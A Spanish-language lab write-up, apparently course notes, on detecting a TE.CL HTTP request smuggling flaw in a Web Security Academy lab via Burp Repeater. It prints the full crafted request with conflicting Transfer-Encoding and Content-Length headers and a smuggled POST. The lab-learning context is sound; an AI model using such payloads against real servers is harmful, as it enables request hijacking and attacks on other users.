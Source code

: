 En esta clase trabajamos con una variante de HTTP request smuggling basada en la combinación TE.CL, donde el front-end permite codificación chunked y el back-end no. El objetivo es verificar si existe una desincronización entre ambos servidores manipulando los encabezados de longitud y codificación de la petición.

A través de dos envíos consecutivos desde Burp Repeater, provocamos una situación donde la segunda petición se ve afectada por los restos interpretados desde la primera, desencadenando una respuesta 404 inesperada en la raíz del sitio. Esta diferencia de comportamiento confirma la presencia del fallo, lo que nos permite avanzar hacia una posible explotación completa en una clase posterior.

Solucion
entonces con BS vamos a interceptar la web y vamos a cambiar el metodo get a post y lo ponemos en http:1.1
ponemos el payload
![Pasted_image_20250807210152.png](Imagenes/Pasted_image_20250807210152.png)
POST / HTTP/1.1

Host: 0a2700a704a32a8f82dc6a1d00bb004a.web-security-academy.net

Transfer-Encoding: chunked

Content-Length: 4



38

POST /error HTTP/1.1

Content-Length: 30



testing=test

0





